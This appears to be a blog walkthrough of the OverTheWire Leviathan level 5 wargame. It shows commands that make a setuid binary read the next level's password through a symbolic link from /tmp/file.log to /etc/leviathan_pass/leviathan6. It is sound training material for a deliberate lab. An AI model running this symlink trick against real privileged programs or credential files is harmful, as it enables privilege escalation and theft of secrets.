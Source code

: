 ```yaml
---
title: OverTheWire Leviathan Level 5
date: 2022-03-02 23:15:00 +0000
categories: [OverTheWire, Leviathan]
tags: [overthewire, leviathan]
description: Solution for OverTheWire Leviathan level 5 challenge
---
```


## Level Goal  

There is no information for this level, intentionally.

---

## Walkthrough  

Solution for the Overthewire.org [Leviathan level 5](https://overthewire.org/wargames/leviathan/leviathan5.html){:target="\_blank"}

Login to the server using the password obtained from the previous level [Leviathan level 4]({% post_url 2022-03-02-overthewire-leviathan-4 %}).  

username: `leviathan5`  

```ssh
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.

```console
leviathan5@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

There is an executable file `leviathan5` with the suid bit set.
When we run `leviathan5` we get an error stating it cannot find `file.log`.

```console
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
```

What happens if the file exists ? Let's create the file.

```console
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5

```

Nothing seems to have happened and the file is now deleted.

Let's try again but this time put some text in the file.

```console
leviathan5@leviathan:~$ echo "Hello" >  /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5
Hello
```

The contents of the file was printed to screen and the file then deleted.

Since `leviathan5` file runs with leviathan6 permissions we can create a symbolic link between the password file and file.log and print the password.

```console
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5 
Uga*******
```

